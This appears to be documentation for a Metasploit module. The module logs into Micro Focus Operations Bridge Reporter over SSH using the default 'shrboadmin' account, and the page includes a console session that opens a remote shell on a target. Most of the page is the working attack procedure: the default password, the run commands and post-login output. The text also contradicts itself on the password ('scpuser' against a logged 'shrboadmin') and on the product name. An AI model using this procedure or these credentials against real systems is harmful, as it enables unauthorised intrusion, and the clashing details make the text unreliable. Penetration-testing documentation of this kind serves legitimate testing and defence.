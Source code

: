 ## Vulnerable Application

This module abuses a known default password on Micro Focus Operations Bridge Reporter.
The 'shrboadmin' user, installed by default by the product has the password of 'scpuser', and allows an attacker to login to server via SSH.
This module has been tested with Micro Focus Operations Bridge Manager 10.40. Earlier versions are most likely affected too, but have not been tested with this module.

## Scenarios

Setup RHOST and run it!

```
msf6 > use exploit/linux/ssh/microfocus_obr_shrboadmin
msf6 exploit(linux/ssh/microfocus_obr_shrboadmin) > set rhosts 10.0.0.100
rhosts => 10.0.0.100
msf6 exploit(linux/ssh/microfocus_obr_shrboadmin) > run

[*] 10.0.0.100:22 - Attempt to login to the server...
[+] 10.0.0.100:22 - Login Successful (shrboadmin:shrboadmin)
[*] Found shell.
[*] Command shell session 1 opened (10.0.0.1:35023 -> 10.0.0.100:22) at 2021-04-23 14:44:09 +0700

whoami
shrboadmin
id
uid=1001(shrboadmin) gid=1001(shrboadmin) groups=1001(shrboadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uname -a
Linux centos7 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
